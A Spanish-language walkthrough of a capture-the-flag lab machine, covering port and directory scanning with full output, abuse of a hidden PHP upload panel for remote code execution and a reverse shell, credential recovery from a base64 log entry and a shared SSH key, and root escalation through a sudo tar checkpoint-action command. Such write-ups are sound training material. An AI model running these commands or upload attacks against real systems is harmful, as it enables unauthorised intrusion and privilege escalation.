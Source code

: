 ## Enumeracion de Puertos, Servicios y Versiones

```ruby
nmap -Pn -n -sS -p- --open -sCV --min-rate 5000 172.17.0.2 -oN nmap
```
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 09:42 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1d:4a:16:27:ad:b8:0b:aa:28:64:b0:10:3b:be:79:1c (ECDSA)
|_  256 0b:0f:11:d6:5a:e9:f5:25:c8:17:0d:71:c1:29:c9:53 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: CyberLand Labs - Innovaci\xC3\xB3n en Ciberseguridad
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.53 seconds
```

comienzo chequeando el servicio web

![image](https://github.com/user-attachments/assets/a49fc61f-ba0c-481f-bf88-90fd0644778a)


realizo fuzzing web

```ruby
feroxbuster -u 'http://172.17.0.2' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x txt,php,bak,db,py,html,js,jpg,png,git,sh -t 200 --random-agent --no-state -d 10
```
```bash
                                                                                                                                                                          
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.2
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, bak, db, py, html, js, jpg, png, git, sh]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 10
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      272c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       65l      221w     3010c http://172.17.0.2/index.html
200      GET      158l      327w     2870c http://172.17.0.2/styles.css
200      GET       44l      152w     1749c http://172.17.0.2/script.js
200      GET       27l       54w      826c http://172.17.0.2/contact.html
200      GET       39l       81w     1327c http://172.17.0.2/team.html
200      GET       29l       67w      931c http://172.17.0.2/blog.html
200      GET      796l     4529w   371895c http://172.17.0.2/logo.png
301      GET        9l       28w      310c http://172.17.0.2/uploads => http://172.17.0.2/uploads/
200      GET     6186l    35127w  2810752c http://172.17.0.2/banner.png
200      GET       65l      221w     3010c http://172.17.0.2/
[####################] - 67s  2491836/2491836 0s      found:10      errors:0      
[####################] - 67s  2491548/2491548 37308/s http://172.17.0.2/ 
[####################] - 0s   2491548/2491548 1245774000/s http://172.17.0.2/uploads/ => Directory listing (add --scan-dir-listings to scan)
```
veo que existe el directorio `/uploads` por lo que imagino que de alguna forma podre cargar archivos solo que no veo el panel de carga, si chequeo el codigo fuente consigo el panel de
carga

![image](https://github.com/user-attachments/assets/a0f159d4-159e-4081-9f4d-69fc001aabfe)

ya tengo localizado el panel de carga asi que accedo `http://172.17.0.2/m4ch1n3_upload.php`

![image](https://github.com/user-attachments/assets/d3a0fba2-acaa-4b84-b71c-9a02042e0f9c)

aqui me cargo un archivo php malicioso, sube sin problema alguna y obtengo una `rce`

![image](https://github.com/user-attachments/assets/04fa554f-aed6-41b8-9462-6b2064a91343)

me envio una `revershell` y obtengo acceso al sistema

## Escalada de Privilegios

### www-data

tratamiento de la tty

```bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 38 columns 168
export TERM=xterm
export SHELL=bash
```
exiten los siguientes usuarios en el sistema: `charlie`, `bob` & `alice`; busco archivos en el sistema que pertenezcan a alguno de estos usuarios pero sin resultado, en cambio al buscar
por `www-data` me consigo con un archivo de `log`

![image](https://github.com/user-attachments/assets/3d977a3b-91f1-4e70-b50e-60fbd2cc14c1)

decodifico la cadena que parece ser `base64`

```ruby
echo 'YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3' |base64 -d
```

obtengo credenciales para el user `alice`

### alice 

![image](https://github.com/user-attachments/assets/860e89cd-d10f-4c8a-bfcd-d974a5e58a3b)

consigo un reporte de incidentes que tiene buena innformacion

```bash
=== INCIDENT REPORT ===
Archivo generado automaticamente por el sistema de auditoria interna de CyberLand Labs.

Fecha: 2023-11-22  
Auditor Responsable: Alice Carter  
Asunto: Configuracion Erronea de Claves SSH  

=== DESCRIPCION ===  
Durante una reciente auditoria de seguridad en nuestro servidor principal, descubrimos un grave error de configuracion en el sistema de autenticacion SSH. El problema parece originarse en un script automatizado utilizado para generar claves RSA para los usuarios del sistema.

En lugar de crear claves unicas para cada usuario, el script genero una unica clave `id_rsa` y la replico en todos los directorios de usuario en el servidor. Ademas, la clave esta protegida por una passphrase que, aunque tecnicamente existe, no ofrece ningun nivel real de seguridad.

=== HALLAZGO ADICIONAL ===  
Durante el analisis, encontramos que la passphrase de la clave privada del usuario `bob` se almaceno accidentalmente en un archivo temporal en el sistema. El archivo no ha sido eliminado, lo que significa que la passphrase esta ahora expuesta.

**Passphrase del Usuario `bob`:** `cyb3r_s3curity`

=== DETALLES DE LA CONFIGURACION ===  
Clave Privada: id_rsa  
Passphrase: cyb3r_s3curity  
Ubicacion: Copiada en todos los directorios `/home/<usuario>/.ssh/`

=== CONSECUENCIAS ===  
1. **Perdida de Privacidad**: Todos los usuarios comparten la misma clave, lo que significa que cualquiera puede autenticarse como cualquier otro usuario si obtiene acceso a la clave.  

=== POSIBLES SOLUCIONES ===  
- Implementar un sistema centralizado de gestion de claves.  
- Forzar a los usuarios a cambiar sus claves regularmente.  
- Actualizar las politicas internas para prohibir el uso de scripts inseguros en la configuracion de credenciales.  

=== NOTA FINAL ===  
Este incidente pone de manifiesto la importancia de revisar las configuraciones criticas en sistemas sensibles. Es crucial que todo el equipo de IT se mantenga alerta y que se implementen controles mas estrictos para evitar errores similares en el futuro.

--- FIN DEL INFORME ---
```

aqui el objetivo pasa a ser enviar a mi maquina atacante la clave `id_rsa` para autenticarme en el sistema como cualquier `user`

![image](https://github.com/user-attachments/assets/b4a3cdbe-1244-4d4f-8507-acc358afcb33)

le asigno los permisos necesarios a la llave para que pueda funcionar

```bash
chmod og-rwx id_rsa
```
procedo acceder al user `bob` via ssh

```
ssh -i id_rsa bob@172.17.2
```

la `passphrase` se encuentra en el reporte de `incidencias`

### bob



```
sudo -l

Matching Defaults entries for bob on e3bff6e1986b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bob may run the following commands on e3bff6e1986b:
    (ALL) NOPASSWD: /bin/tar
```

escalamos a `root`

```ruby
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

![image](https://github.com/user-attachments/assets/e0899ef6-8e11-47f3-81cc-66f20b650541)

### root
